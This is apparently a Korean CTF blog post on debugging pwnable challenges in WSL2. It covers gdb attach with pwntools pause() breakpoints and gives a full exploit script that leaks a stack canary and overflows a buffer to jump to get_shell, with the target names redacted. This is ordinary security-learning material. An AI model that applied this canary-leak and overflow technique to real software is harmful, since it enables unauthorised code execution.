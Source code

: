 ```yaml
---
layout: post
title:  "Debugging in WSL2"
date:   2020-10-03
categories: ["2020","pwnable","tips"]
update: 2020-10-03
comment: true
tags: [pwnable,tips]
---
```



최근에 `WSL2`를 이용해서 pwnable 문제들을 풀고 있는데 pwnable이 오랜만이라 디버깅할 일이 많다.. 근데 자꾸 디버깅을 빨리빨리 못해서 시간이 끌리는 문제들이 많아서 연습할 겸 정리도 할겸 **Let's go** 😈

> 🚀 많이 배운 짱짱 블로그
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

문제 풀면서 디버깅을 한 과정을 다시 밟아보자.
### 🔍Code

``` c
switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
```

필요한 부분만 가져왔다.

이 문제의 목표는

- `P`로 canary leak
- `E`로 BOF

이다.

쉬운 문제여서 코드 슥슥 짜서 돌렸는데 자꾸 canary값이 틀려서 `*** stack smashing detected ***`가 뜬다. 😭 그래서 디버깅을 해보기로 했다.

### 👀 Debugging

`canary` leak은 쉬우니까 leak한 후에 `BOF`를 하는 과정을 보자.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

gdb로 보면 필요한 값들의 위치를 알 수 있다.

- `name` : `ebp-0x48`
- `name_len` : `ebp-0x90`
- `canary` : `ebp-0x8`

확인해야할 점은 두 가지다.

- `name`에 입력 전 `canary`값
- `name`에 입력 후 `canary`값

이 걸 pwntools를 쓰면서 debugging을 하려면 Linux에서는 `gdb.attach(p)`하면 되는데 `WSL2`에서는 `gdb.attach(p)`가 안 된다.

그래서 코드를 이렇게 짜고:

#### 👓 part of ex.py :

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

다른 터미널에서 `gdb attach <pid>`를 해 줘야 한다.

![image](https://user-images.githubusercontent.com/51329156/94967162-848c6400-0539-11eb-92b6-2e5616c1344a.png)

3번 째 줄에 `pid`값이 나와있다. 저 값을 가지고 다른 터미널에서 `gdb attach 3097`을 해주면 저 프로세스에 gdb가 붙는다.

`gdb`가 저 프로세스에 붙는다고 해서,  코드의 실행이 멈추지 않기 때문에 `pause()`를 하지 않으면 코드가 끝까지 실행되서 종료해 버린다. 그래서 `bp`를 걸고 디버깅을 하고 싶어도 `bp`를 걸 수가 없다. 

그래서 디버깅을 하려면 위 코드처럼 `pause()` 혹은 `raw_input()`으로 코드의 실행을 멈춰서 `bp`를 걸 수 있는 시간을 벌어야 한다.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

#### 👻 Where to `pause()` and `bp`

**ex.py**를 다시 보면

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

1. payload를 보내기 전과 후에 `pause()`가 걸려있다. `gdb`가 프로세스에 붙을 시점에는 payload가 보내지기 전이다. 

2. 위 사진의 어셈블리 코드를 보면 `read()`가 있다. `bp`를 `0x08048864(main+313)`에다가 걸어준다. 

3. 그리고 `c(continue)`를 하면, `gdb` 입장에서는 `read`를 해야 하는데 프로세스가 아직 payload를 보내지 않은 상황이다. 그래서 `pause()`를 풀기 위해 아무 키나 입려해주면 프로세스가 입력을 보내게 되고 `c`가 자동으로 실행해서 `read()`한 상황을 디버깅 할 수 있다.

#### 🧰 Fix

**입력 전 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968353-b3a3d500-053b-11eb-8faf-4f7f5c0d5374.png)

**입력 후 덮어 쓴 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968381-bf8f9700-053b-11eb-8cff-7aee0064cf27.png)

endian이 거꾸로 되어서 들어가 있다. endian을 바꿔서 넣어주면 된다.👍

---

### 🔎 ex.py and shell

``` python
from pwn import *
import sys

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',14195)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

get_shell=e.symbols['get_shell']

canary=""

def canaryLeak(idx):
    p.sendlineafter("> ","P")
    p.recvuntil("Element index : ")
    p.sendline(str(idx))
    p.recv(26)
    return p.recv(2)

def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    
canary+=canaryLeak(128)
canary+=canaryLeak(129)
canary+=canaryLeak(130)
canary+=canaryLeak(131)
canary=int(canary,16)

log.info("CANARY: "+hex(canary))

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

overWrite(0x80,payload)

p.interactive()
```

![image-20201003054737199](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003054737199.png)

👏🏻👏🏻👏🏻

❗ 쉬운 문제에 생각보다 시간을 많이 끌렸지만 디버깅 연습은 제대로 된 거 같다. 사실 저번에 친구가 풀으라고 준 pwnable.tw에 `death_note` 풀면서 디버깅을 엄청 많이 했는데, 이제 진짜 잘할 수 있을 거 같다!